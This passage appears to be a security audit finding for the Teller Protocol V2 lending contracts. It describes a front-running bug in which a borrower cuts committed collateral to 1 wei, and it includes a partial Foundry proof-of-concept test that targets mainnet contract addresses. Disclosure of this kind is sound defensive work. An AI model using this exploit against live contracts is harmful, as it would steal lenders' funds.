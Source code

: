 This will allow borrower to **trick the lender** into accepting only 1 wei of collateral although they agreed to 1 WETH before. Since the borrower has no collateral to be liquidated and no loan to repay he just got **free money**. 

POC: 
This test can be added under teller-protocol-v2/packages/contracts/tests/TellerV2/TellerV2CommitCollateralBug.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { StdStorage, stdStorage } from "forge-std/StdStorage.sol";
import "lib/forge-std/src/console.sol";

import { Testable } from "../Testable.sol";

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

import "../../contracts/TellerV2.sol";
import "../../contracts/CollateralManager.sol";
import { Collateral, CollateralType } from "../../contracts/interfaces/escrow/ICollateralEscrowV1.sol";

contract TellerV2CommitCollateralBug is Testable {
    TellerV2 teller;
    CollateralManager collateralManager;

    // addresses of verified bidder and lender for _marketplaceId = 2 - found from etherscan
    address bidder = 0xd96Ef5ed7F6978C18f4f26113759dCC20Ab7C28B;
    address lender = 0x3e4DD7e5C37fe838EaFFc89a551e1c311b7d14F8;

    ERC20 usdc = ERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);
    ERC20 weth = ERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    function testFrontrunAcceptBid() public {
        uint256 _marketplaceId = 2;
        uint256 _principal = 1000000; // value not relevant for this test
        uint32 _duration = 10368000;  // value not relevant for this test
        uint16 _APR = 600;            // value not relevant for this test

        // Get balances before for bidder
        uint256 balance_weth_bidder_before = weth.balanceOf(bidder);
        uint256 balance_usdc_bidder_before = usdc.balanceOf(bidder);
        
        // mainnet instance of TellerV2 and CollateralManager
        teller = TellerV2(0x00182FdB0B880eE24D428e3Cc39383717677C37e);
        collateralManager = CollateralManager(0x2551A099129ad9b0b1FEc16f34D9CB73c237be8b);

        // Bidder wants to provide 0.001 WETH as collateral
        Collateral memory _collateralInfo = Collateral(
            CollateralType.ERC20,
            0.001 ether, 
            0,
            0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2
        );
        
        // Bidder submits bid, commits collateral, and approves weth to collaterMaanger
        vm.startPrank(bidder);
        weth.approve(address(collateralManager), 0.001 ether);
        uint256 bidId = teller.submitBid(
            address(usdc),
            _marketplaceId,
            _principal,
            _duration,
```